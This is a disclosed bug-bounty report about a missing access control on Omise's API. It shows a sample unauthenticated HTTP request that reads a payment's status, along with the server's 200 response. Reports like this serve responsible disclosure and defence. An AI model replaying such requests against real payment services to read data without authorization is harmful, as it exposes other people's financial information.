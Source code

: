 # Anonymous access control - Payments Status

## Report Details
- **Report ID**: 1546726
- **URL**: https://hackerone.com/reports/1546726
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-04-21T11:10:23.742Z
- **Disclosed**: 2022-08-07T01:59:29.530Z

## Reporter
- **Username**: codeslayer1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: omise

## Vulnerability Information
## Summary:
Found on the Payments Status function website, it can be accessed anonymously. payment status should only be accessible by accounts that make payments in a state that has successfully logged in.

## Steps To Reproduce:
access anonymously (without logging in) to the payment status function as in the example below

  1. Request:
GET /payments/paym_test_5rjz482tky43reoil9f/status HTTP/2
Host: api.omise.co
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://api.omise.co/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

2. Response:
HTTP/2 200 OK
Date: Thu, 21 Apr 2022 10:57:37 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 18
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin
Cache-Control: no-cache, no-store
Etag: W/"c9e654e8902aa47de7edcd7ab902ed16"
Set-Cookie: locale=en; path=/
X-Request-Id: 26180027472066089
Strict-Transport-Security: max-age=31536000; includeSubDomains

{"processed":true}

## Impact

Attackers can see payment status on the account's website without having to log in (anonymous)

Best regards,


CodeSlayer137

## Attachments
- Screen_Shot_2022-04-21_at_18.09.49.png
